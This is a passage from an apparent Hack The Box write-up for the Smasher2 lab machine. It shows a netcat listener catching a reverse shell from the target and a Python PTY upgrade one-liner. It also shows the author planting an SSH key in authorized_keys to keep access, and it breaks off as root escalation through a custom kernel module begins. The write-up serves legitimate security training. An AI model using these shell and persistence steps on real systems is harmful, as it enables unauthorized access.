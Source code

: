 Then executed it and I finally got a shell

![](/assets/images/htb-writeup-smasher2/rce8.png)

```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.135.
Ncat: Connection from 10.10.10.135:51882.
id
uid=1000(dzonerzy) gid=1000(dzonerzy) groups=1000(dzonerzy),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
python -c 'import pty;pty.spawn("/bin/bash")'
dzonerzy@smasher2:~/smanager$
```

After getting a shell, I dropped my RSA public key into `authorized_keys` so I could use a regular SSH session:

```
dzonerzy@smasher2:~$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQ
ABAAABAQC+SZ75RsfVTQxRRbezIJn+bQgNifXvjMWfhT1hJzl/GbTbykF
...
tGPTwuiA5NAcPKPG25jkQln3J8Id2ngappH2jeDg89 root@ragingunicorn" > .ssh/authorized_keys
```

```
# ssh dzonerzy@10.10.10.135
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * 'snap info' now shows the freshness of each channel.
   Try 'snap info microk8s' for all the latest goodness.

Last login: Fri Feb 15 22:05:15 2019
dzonerzy@smasher2:~$ id
uid=1000(dzonerzy) gid=1000(dzonerzy) groups=1000(dzonerzy),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

## Root privesc

After searching for a while I found a custom kernel module here:

- `./modules/4.15.0-45-generic/kernel/drivers/hid/dhid.ko`

This is clearly the target since the box creator's name is the module info:
